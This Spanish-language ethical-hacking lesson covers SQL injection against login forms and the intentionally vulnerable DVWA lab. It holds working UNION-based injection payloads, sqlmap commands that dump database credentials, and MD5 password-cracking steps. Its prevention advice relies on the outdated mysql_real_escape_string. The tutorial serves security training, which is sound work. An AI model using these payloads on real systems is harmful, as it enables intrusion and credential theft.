 Algunos de los comandos más utilizados en SQL pueden ser los siguientes:

_Crear tabla:_

```
CREATE TABLE ‘opweb’ (…)
```

_Insertar información:_

```
insert into opweb (field1,field2) values (data1,data2)
```

_Consultas:_

```
select * from opweb group_by field
```

_Especificando campos:_

```
select field1,field2 from opweb
```

_Filtrando valores:_

```
select * from opweb where field1 > value
```

_Combinar resultados:_

```
select … UNION select …
```

##### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1717/#formularios-de-login)FORMULARIOS DE LOGIN

Para hacer la comprobación _usuario:contraseña_ en una base de datos se realizará con la siguiente consulta:

```
sql = SELECT * FROM usuarios WHERE usuario = ‘$usuario’ and password = ‘$pass’;
```

Si no se toman las medidas necesarias, podría **_aceptar lógica_** en sus campos:

```
sql = SELECT * FROM usuarios WHERE usuario = ‘opweb’ and password = ‘1234’ OR ‘1’=‘1’;
```

La contraseña no será la introducida en primera instancia pero si _acepta lógica_ reconocerá que la primera parte no es válida pero la segunda `1 = 1` sí que se cumple siempre, por lo que tendrá acceso.

##### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1717/#prevención)PREVENCIÓN

Se usará la siguiente función:

```
string mysql_real_escape_string (string cadena […])
```

que se encargará de _escapar_ caracteres extraños o que puedan ser considerados parte de la lógica de una consulta, como por ejemplo: `\x00, \n, \r, \, ’, ”`

Por lo que la consulta pasaría a realizarse de la siguiente forma:

```
$consulta = "SELECT * FROM usuarios WHERE 
usuario='{$_POST['usuario']}' AND password='{$_POST['password']}'";
mysql_query($consulta);
```

Donde se están validando ambos campos:

```
$_POST['usuario'] = mysql_real_escape_string($_POST['usuario']);
$_POST['password'] = mysql_real_escape_string($_POST['password']);
```

#### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1717/#laboratorio)LABORATORIO

##### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1717/#instalación-del-entorno-dvwa)Instalación del entorno DVWA

```
cd Downloads
wget https://github.com/ethicalhack3r/DVWA/archive/master.zip
unzip master.zip
mv DVWA-master dvwa
cp -r dvwa /var/www/html/
service mysql start
mysql -u root -p
create database dvwa;
exit
nano /var/www/html/dvwa/config/config.inc.php
# Eliminar la contraseña de mysql
service apache2 restart
```

Y ya se debe tener acceso a través de `http://172.16.123.136/dvwa`, con usuario `admin` y contraseña `password` y, por último, pulsar el botón `create database` de la pestaña Setup.

Para todas las pruebas de este curso de introducción a la seguridad debemos asegurarnos de que en la pestaña `DVWA Security` la dificultad está seleccionada como `low`.

##### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1717/#sql-injection)SQL Injection

Accediendo a la pestaña `SQL Injection` aparece un campo `User ID` en el que se puede insertar un número. Si dicho usuario existe nos devolverá información del mismo.

```
2
```

Al añadir números como 1, 2, 3 recibimos respuesta del usuario que ocupa dicho “id”

---

```
2' and 1=1 #
```

Esto nos devuelve la segunda entrada (Gordon) de la base de datos, por lo que está interpretando la expresión que se encuentra a su derecha

---

```
2' and 1=1 order by 3 #
```

Da un error (_unknown column 3_) ya que no existe dicha columna, porque la consulta solo nos devuelve los campos _First_name_ y _Surname_. Al ordenar la salida nos da la pista de que quizás se puedan ejecutar acciones en la propia consulta

Funciones como las que se pueden encontrar en la documentación oficial `https://dev.mysql.com/doc/refman/5.7/en/information-functions.html`.

---

```
2' and 1=1 union select 1,version() #
```

Efectivamente ejecuta funciones, en este caso nos devuelve la versión concreta de la base de datos.

---

```
2' and 1=1 union select 1,user() #
```

Usuario administrador de la base de datos.

---

```
2' and 1=1 union select 1,database() #
```

Nombre de la base de datos.

---

```
2' and 1=1 union select 1,table_name from information_schema.tables #
```

Nombre de todas las tablas, entre las que destaca una de usuarios “users” a la que podemos atacar. Se pueden lanzar distintas funciones que podemos encontrar en `https://dev.mysql.com/doc/refman/5.7/en/tables-table.html`.

---

```
2' and 1=1 union select 1,table_name from information_schema.tables where table_schema!='mysql' and table_schema!='information_schema' and  table_schema!='performance_schema' #
```

Se filtra la base de datos information_schema, performance_schema y mysql

---

```
2' and 1=1 union select 1,column_name from information_schema.columns where table_name='users' #
```

Se accede dentro de la tabla y se listan las columnas que tiene

---

```
2' and 1=1 union select 1,concat(first_name,0x0a,password) from users #
```

Se obtiene los usuarios con las contraseñas en md5

===================

```
admin    : 5f4dcc3b5aa765d61d8327deb882cf99
Gordon     : e99a18c428cb38d5f260853678922e03
Hack     : 8d3533d75ae2c3966d7e0d4fcc69216b
Pablo     : 0d107d09f5bbe40cade3de5c71e9e9b7
Bob     : 5f4dcc3b5aa765d61d8327deb882cf99
```

Para descifrar la password se puede utilizar algún servicio online como:

```
https://hashkiller.co.uk/md5-decrypter.aspx
```

o con John The Ripper, con el comando:

```
john --format=raw-md5 gordon-md5 --show
```

Donde _gordon-md5_ es un fichero donde hemos almacenado la contraseña cifrada por md5.

##### [](https://openwebinars.net/academia/aprende/ethical-hacking-introduccion/1717/#sql-map)SQL Map

Se debería instalar, por ejemplo, la herramienta CookieManager+ para poder coger la Cookie de la conexión y realizar las pruebas con _Sqlmap_.

Primero se comprobará si es vulnerable a un ataque SQL.

```
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=XXXX"
```

Se obtendrá el usuario administrador de la bbdd:

```
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=XXXX" --current-user
```

La lista de bases de datos:

```
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=XXXX" --dbs
```

Las tablas dentro de nuestra base de datos objetivo:

```
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=XXXX" -D dvwa --tables
```

Lista de columnas dentro de la tabla de usuarios:

```
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=XXXX" -D dvwa -T users --columns
```

Por último, que devuelva una lista de usuarios y contraseñas (md5)

```
sqlmap -u "http://127.0.0.1/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit" --cookie="security=low; PHPSESSID=XXXX" -D dvwa -T users -C user,password,first_name,last_name --dump
```